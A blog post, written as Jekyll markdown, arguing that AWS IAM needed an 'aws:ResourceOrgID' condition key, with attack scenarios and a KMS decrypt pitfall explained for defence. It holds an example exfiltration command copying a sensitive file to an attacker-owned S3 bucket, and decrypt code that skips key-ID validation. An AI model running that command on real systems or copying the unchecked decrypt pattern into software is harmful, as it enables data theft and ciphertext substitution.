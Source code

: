 ```yaml
---
layout: post
title:  AWS IAM needs aws:ResourceOrgID
date:   2020-09-29 12:12:52 +1000
categories: blog
---
```


## Update

In April 2022, AWS released `aws:ResourceOrgID` (and a couple of other related
condition keys). This [blog post][launch-post] does a great job of describing 
how it works. I'll leave the rest of this blog post in place for historical
interest, but it's now outdated.

## Background

In May 2018, AWS [released][aws-blog] a new IAM condition key, `aws:PrincipalOrgID`.
This was a game-changer for improving security posture as it made the dream of
extremely granular AWS accounts that much more achievable. I won't go into
detail on why it was so useful as I'm sure others have written much better
explanations than I could.

The existence of `aws:PrincipalOrgID` made writing some _resource_-based policies
much easier. In the same theme, a hypothetical `aws:ResourceOrgID` condition key
would be extremely useful for _identity_-based policies, service control policies
and VPC endpoint policies. I'm not alone in thinking this. For example, in
Square's [blog post][square-blog] on adoption of VPC endpoints they wrote this:

> There is a limit of 20,480 characters on VPC Endpoint Policies. While this may 
> suffice for most use-cases, at Square we currently have close to 200 AWS accounts 
> and are expected to add hundreds more AWS accounts as more teams build in the 
> cloud. We calculated that with our policy specification, we cannot list more 
> than approximately 800 AWS accounts. In order to monitor this we have a graph 
> of the VPC Endpoint Policy text sizes (in number of characters) and have an 
> alarm set if that reaches into the ten thousand characters.
>
> If AWS offers a `aws:ResourceOrgID` IAM conditional context key, similar to 
> the `aws:PrincipalOrgID` conditional context key, we would not have to manually 
> list AWS accounts in the resources section.

Additionally, this is a frequent topic of ~~complaining~~ discussion in the
Cloud Security Forum:

![screenshot](/assets/2020-09-29-cloudsecurityforum.png)

## Arguments for aws:ResourceOrgID

Something to keep in mind is that these scenarios may seem trivial to fix: it's
a matter of "duh, don't do that thing" and that is indeed often true of the
demographics that might read this blog. But there are large orgs that have
hundreds to thousands of developers of *significantly* differing levels of
AWS proficiency. That's where an SCP like the following can be exceedingly
useful:

```json
{
    "Effect": "Deny",
    "Action": "kms:Decrypt",
    "Condition": {
        "StringNotEquals": {
            "aws:ResourceOrgID": "o-my-org-id"
        }
    }
}
```

Scenario one: Imagine a scenario wherein an attacker has gained control of an 
EC2 instance with an IAM policy that has `s3:PutObject` permissions on `*` 
resources. The attacker could exfiltrate data to a bucket that they own by 
running `aws s3 cp sensitive-file s3://attacker-bucket/`. This usually should 
be prevented by being explicit about buckets that it has write access to. But
for argument's sake, it needs unbounded access. This could be made safer by
adding a condition that the instance role can only write to buckets owned by
the org.

Scenario two: An attacker can trivially circumvent the protection in scenario
one by using their own access key ID instead of the instance's to perform the 
file upload. This is where the condition key would be useful in a VPC endpoint:
any same-region traffic to S3 could be restricted to buckets owned by the org
by including an `aws:ResourceOrgID` condition key.

Scenario three: You are running a centrally-administered EKS/ECS cluster. Images
are stored in ECR repositories across the org. You want to prevent attackers from
specifying that an image hosted in an attacker-owned account should be run -
the condition key helps here too. Likewise with ECR VPC endpoint policies.

Scenario four: An attacker convinces your application to call `kms:Decrypt` on
an attacker-provided ciphertext that has been encrypted with a KMS CMK
owned by the attacker. The attacker's CMK has a key policy that grants `kms:Decrypt`
to `*` principals and your application has an IAM policy that grants `kms:Decrypt`
on `*` keys.

## The problem with KMS keys

I think scenario four warrants the most thought. In my (limited, anecdotal) 
experience AWS KMS is the service that suffers in terms of the ratio of
being poorly understood relative to how critical it is. There's also some
unfortunate gotchas in the user experience that make security issues more likely.

The first issue concerns the relationship between KMS key IDs, key aliases and
IAM principal policies. When you _use_ a KMS key, you're usually calling one
of the KMS APIs (like `Decrypt`, `Encrypt`, etc) with a key *alias*, e.g.:

```javascript
    kmsClient.encrypt({ 
        Plaintext = someSensitiveUserData, 
        KeyId = "alias/MyEncryptionKey" 
    })
```

This is a much more pleasant dev experience than passing in a key ID, which is
an opaque GUID. This is doubly the case if you are using multiple AWS regions
and/or multiple AWS accounts: it's very tempting to use the same alias in
each environment so you don't need to make your code configurable.

Where this experience falls down is in assigning permissions. The first thing
a developer will try is the following IAM policy statement:

```yaml
- Effect: Allow
  Action: [kms:Encrypt, kms:Decrypt]
  Resource: !Sub arn:aws:kms:${AWS::Region}:${AWS::AccountId}:alias/MyEncryptionKey
```

This will fail. The resource must be the **key ID**. So what are they going to 
do? They have a few lousy options:

* Make the key ID a template parameter. This now makes instantiating the template
  more annoying.
* Add all the key IDs to a `Mappings` section. This now makes the `Resource` field
  more effort _and_ uglier. You might call this petty, but would you say developers
  aren't petty?
* Change the statement to be `Resource: "*"`. And why wouldn't they? It's substantially
  easier, guaranteed to work and the attack scenarios aren't immediately apparent. 
  How insecure could it be when the key alias is hardcoded in the app?

The issue only arises when the app later calls `kms:Decrypt` if the ciphertext
is provided by the user. The issue is that an attacker can provide a ciphertext
encrypted with *their* key. `kms:Decrypt` supports an *optional* `KeyId` 
parameter, but 99% of the time I see the following usage:

```javascript
    const resp = await kmsClient.decrypt({ CiphertextBlob = someCiphertextString });
    const decrypted = resp.Plaintext;
    // some code that uses the decrypted value
```

This works because the key ID is encoded into the ciphertext blob returned by
`kms:Encrypt`. It's very handy because you don't need to record the key ID alongside
the encrypted data! And it's typically pretty secure, because if an attacker 
tries to modify the ciphertext, it becomes invalid and returns and error as
the cipher is authenticated. This in combination with the hardcoded encryption
key will lead most developers to feeling confident in the security of the system
as-is.

But that authentication **counts for nothing** if you don't validate that the 
`resp.KeyId` matches the `KeyId` that you passed to the `kms:Encrypt` API call.

I suspect that this problem is more likely to occur than you might first guess.
Think of scenarios like a Dropbox app, where the backend encrypts users' files
that are then stored on users' machines. The authenticated nature of the ciphertext
would lead most reasonable developers to believe the data is tamper-proof.

It's for this reason that I think an `aws:ResourceOrgID` condition key would be
extremely useful for AWS Organization SCPs: to deny the very uncommon scenario
of cross-org encryption/decryption. In the unlikely scenario that is part of
your workflow, it can always be narrowed down to not deny usage of cross-org
keys by suitably tagged IAM principals.

## What does AWS have to say about all this?

The [`kms:Decrypt`][docs] do actually have a bit to say on this, but it's not
spelled out as clearly as might be necessary for someone without sufficient
pre-existing background. The relevant excerpts:

> [s]pecifying the CMK is always recommended as a best practice. When you use 
> the KeyId parameter to specify a CMK, AWS KMS only uses the CMK you specify. 
> If the ciphertext was encrypted under a different CMK, the Decrypt operation 
> fails. This practice ensures that you use the CMK that you intend.
>
> Whenever possible, use key policies to give users permission to call the Decrypt 
> operation on a particular CMK, instead of using IAM policies. Otherwise, you
> might create an IAM user policy that gives the user Decrypt permission on all 
> CMKs. This user could decrypt ciphertext that was encrypted by CMKs in other 
> accounts if the key policy for the cross-account CMK permits it. If you 
> must use an IAM policy for Decrypt permissions, limit the user to particular 
> CMKs or particular trusted accounts. 
>
> [...]
> 
> `KeyId`
> [...] If you used a symmetric CMK, AWS KMS can get the CMK from metadata that 
> it adds to the symmetric ciphertext blob. However, it is always recommended 
> as a best practice. This practice ensures that you use the CMK that you intend.

## You're wrong

I probably am wrong. Or maybe I've misestimated the likelihood of something. Or
very likely: I've not considered another great reason why this would be a wonderful
new condition key. Please reach out to me on Twitter and share your thoughts.

[launch-post]: https://aws.amazon.com/blogs/security/how-to-control-access-to-aws-resources-based-on-aws-account-ou-or-organization/
[aws-blog]: https://aws.amazon.com/blogs/security/control-access-to-aws-resources-by-using-the-aws-organization-of-iam-principals/
[square-blog]: https://developer.squareup.com/blog/adopting-aws-vpc-endpoints-at-square/
[docs]: https://docs.aws.amazon.com/kms/latest/APIReference/API_Decrypt.html
